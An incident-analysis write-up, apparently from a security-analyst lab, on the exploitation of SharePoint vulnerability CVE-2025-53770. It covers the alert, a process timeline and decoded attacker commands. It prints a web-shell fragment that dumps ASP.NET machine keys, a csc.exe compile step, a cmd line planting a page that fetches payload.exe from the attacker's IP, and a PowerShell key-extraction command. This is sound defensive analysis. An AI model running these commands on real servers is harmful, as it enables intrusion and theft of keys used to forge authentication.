




# CVE‑2025‑53770
*Source: [SANS](https://www.sans.org/blog/critical-sharepoint-zero-day-exploited-what-you-need-to-know-about-cve-2025-53770), [CISA](https://www.cisa.gov/news-events/alerts/2025/07/20/update-microsoft-releases-guidance-exploitation-sharepoint-vulnerabilities), [LOLBAS](https://lolbas-project.github.io/lolbas/Binaries/Csc/)*

## What is the vulnerability?

**CVE‑2025‑53770 | SharePoint vulnerability**
<br>The vulnerability affects on-prem instances (2016, 2019, Subscription editions). It bypasses authentication by sending a header request to *ToolPane.aspx*, where the referrer is set to *SignOut.aspx*. Post-exploitation involves writing a payload to *spinstall0.aspx* which extracts cryptographic key material.

## What is the alert?



>**Alert Trigger Reason**: *Suspicious unauthenticated POST request targeting ToolPane.aspx with large payload size and spoofed referer indicative of CVE-2025-53770 exploitation.*

It looks like the exploitation has been successful. We can see an unauthenticated POST request against ToolPane.aspx, and Signout.aspx in the referrer header. A large payload size to note here.


>**Source IP Address:** 107.191.58.76
- This IP looks to be associated with the vulnerability, in the wild.


## Summary
We have a true positive exploit of CVE‑2025‑53770. The adversary has successfully exploited the vulnerability and post-exploitation phase is evident. 

w3wp.exe was used to spawn an encoded powershell script. This script facilitates the extract of the ASP.NET MachineKey. LOTL was observed, with csc.exe being used to compile a malicious *payload.exe*. A SharePoint page *spinstall0.aspx* was created which loads the malicious payload.

## Analysing the endpoint

> OS: Windows Server 2019

-  We are vulnerable.


## Timeline

The adversary begins by sending a crafted unauthenticated payload *(Code 1)* via POST. The server executes the payload via powershell, triggered by w3wp.exe (IIS process).

**Processes**

| Time     | Process        | Overview                                               | Child Process  |
| -------- | -------------- | ------------------------------------------------------ | -------------- |
| 13:07:11 | w3wp.exe       | Process that supports SharePoint                       | powershell.exe |
| 13:07:24 | powershell.exe | Run Base64 code (Code 1).                              | csc.exe        |
| 13:07:27 | csc.exe        | Compile payload.cs as payload.exe (Code 2)             | cmd.exe        |
| 13:07:29 | cmd.exe        | Write malicious spinstall0.aspx to SharePoint (Code 3) | powershell.exe |
| 13:07:34 | powershell.exe | Gather machine key (Code 4)                            |                |

### Terminal History


#### Code 1
Flags: 
`-nop, -w hidden, -e`
- No profile
- Hide the PowerShell window
- EncodedCommand

After decoding the Base64 commands we get:


On page load, the script is set to execute.

We can gather the following:
```
%@ Import Namespace="System.Diagnostics" %
%@ Import Namespace="System.IO" %
script runat="server" language="c#"
```

- C# execution
- ASP.NET 

``` 
var mkt = sy.GetType("System.Web.Configuration.MachineKeySection");
Response.Write(cg.ValidationKey+"|"+cg.Validation+"|"+cg.DecryptionKey+"|"+cg.Decryption+"|"+cg.CompatibilityMode);
```

- Gathers and outputs machine keys from Web.Configuration
	- ValidationKey
	- DecryptionKey
- These crypto keys are used to authenticate user sessions
	- Now the adversary can forge valid auth. tokens 

#### Code 2
```
"C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe" /out:C:\Windows\Temp\payload.exe C:\Windows\Temp\payload.cs
```

- csc.exe is a binary file used by .NET to compile C#, this is a LOTL
- Malicious code payload.cs is compiled as payload.exe

#### Code 3
```
"C:\Windows\System32\cmd.exe" /c echo <form runat=\"server\"> <object classid=\"clsid:ADB880A6-D8FF-11CF-9377-00AA003B7A11\"><param name=\"Command\" value=\"Redirect\"> <param name=\"Button\" value=\"Test\"> <param name=\"Url\" value=\"http://107.191.58.76/payload.exe\"></object></form> > C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\16\TEMPLATE\LAYOUTS\spinstall0.aspx`
```

- Run command via cmd
- Drop redirector page spinstall0.aspx to SharePoint Layouts directory
- This triggers a redirect to download payload.exe from the adversary's infrastructure

#### Code 4
```
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -Command "[System.Web.Configuration.MachineKeySection]::GetApplicationConfig()"
```
- Use Powershell to gather Machine Key


